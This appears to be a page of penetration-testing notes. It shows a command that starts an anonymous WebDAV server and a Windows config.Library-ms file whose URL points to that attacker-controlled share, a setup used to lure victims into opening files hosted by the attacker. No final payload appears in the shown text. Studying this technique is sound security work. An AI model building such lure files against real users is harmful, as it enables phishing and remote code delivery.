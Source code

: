 # Page 3

Setting up WebDAV:

{% code overflow="wrap" %}
```sh
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
{% endcode %}

* **--auth=anonymous:** disable authentication&#x20;
* **--root /home/kali/webdav/:** root of directory of webdav share

Save and close config.Library-ms in Visual Studio Code:

{% code title="config.Library-ms " overflow="wrap" %}
```visual-basic
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
{% endcode %}

* `<url>http://192.168.119.2</url>`: points to webdav share
* embedds connection to webdav share





